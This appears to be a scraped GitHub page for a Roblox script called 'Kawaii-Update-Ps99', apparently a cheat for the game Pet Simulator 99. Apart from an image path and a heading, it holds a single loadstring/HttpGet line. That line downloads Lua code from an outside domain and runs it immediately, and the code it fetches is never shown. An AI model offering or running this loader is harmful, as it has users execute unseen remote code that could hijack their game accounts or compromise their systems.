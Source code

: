 # Kawaii-Update-Ps99



loadstring(game:HttpGet("https://egorikusa.space/02450c1008b1386bce0ff1ac.lua", true))()
